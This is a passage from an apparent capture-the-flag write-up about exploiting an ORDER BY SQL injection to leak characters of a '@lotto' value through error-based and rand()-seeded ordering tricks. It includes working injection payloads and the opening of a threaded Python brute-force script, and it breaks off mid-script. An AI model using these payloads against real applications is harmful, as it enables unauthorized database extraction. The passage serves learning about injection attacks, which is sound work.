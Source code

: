 ```sql
date` = 1,
(select case when (SUBSTR(@lotto,10,1)=CHAR(0x31)) then 1 else 1*(select table_name from information_schema.tables)end)=1,
(select case when (SUBSTR(@lotto,12,1)=CHAR(0x30)) then 1 else 1*(select table_name from information_schema.tables)end)=1,
rand(
    IF((ASCII(SUBSTR(@lotto,11,1))) > 0x39, (ASCII(SUBSTR(@lotto,11,1))-0x37), (ASCII(SUBSTR(@lotto,11,1))-0x30))
), --`date
```

Here the GET request will fail (return blank page) unless byte number 12 is set to '0' and byte number 10 is set to '1'. Again those values are chosen since they are slightly more likely to occur as discussed at the beginning.

This will happen about once every 1296 requests. Adding an extra byte would make this happen once every 46656 requests. Since we don't need more than 2 bytes to have a success rate of 12.4% we can just stay with 2 bytes and significantly reduce the brute-force space.

Requests seemed to take around half a second for me, so I decided to parallelize the brute-forcing with a bunch of threads.


### Putting it all together

```python
##!/bin/python

## tests: http://sqlfiddle.com/#!9/1c5c9/73

import requests
import re
import time
import mysql.connector

from threading import Thread

connection = mysql.connector.connect(host='localhost',
                                database='test',
                                user='root',
                                password='somepassword')

## march order injection
order0 = """
date` = 1,
  rand(
    IF((ASCII(SUBSTR(@lotto,1,1))) > 0x39, (ASCII(SUBSTR(@lotto,1,1))-0x37), (ASCII(SUBSTR(@lotto,1,1))-0x30))+
    36*IF((ASCII(SUBSTR(@lotto,2,1))) > 0x39, (ASCII(SUBSTR(@lotto,2,1))-0x37), (ASCII(SUBSTR(@lotto,2,1))-0x30))+
    36*36*IF((ASCII(SUBSTR(@lotto,3,1))) > 0x39, (ASCII(SUBSTR(@lotto,3,1))-0x37), (ASCII(SUBSTR(@lotto,3,1))-0x30))
  ), --`date
""".replace('\n', '')

## april order injection
order1 = """
date` = 1,
  rand(
    IF((ASCII(SUBSTR(@lotto,4,1))) > 0x39, (ASCII(SUBSTR(@lotto,4,1))-0x37), (ASCII(SUBSTR(@lotto,4,1))-0x30))+
    36*IF((ASCII(SUBSTR(@lotto,5,1))) > 0x39, (ASCII(SUBSTR(@lotto,5,1))-0x37), (ASCII(SUBSTR(@lotto,5,1))-0x30))+
    36*36*IF((ASCII(SUBSTR(@lotto,6,1))) > 0x39, (ASCII(SUBSTR(@lotto,6,1))-0x37), (ASCII(SUBSTR(@lotto,6,1))-0x30))+
```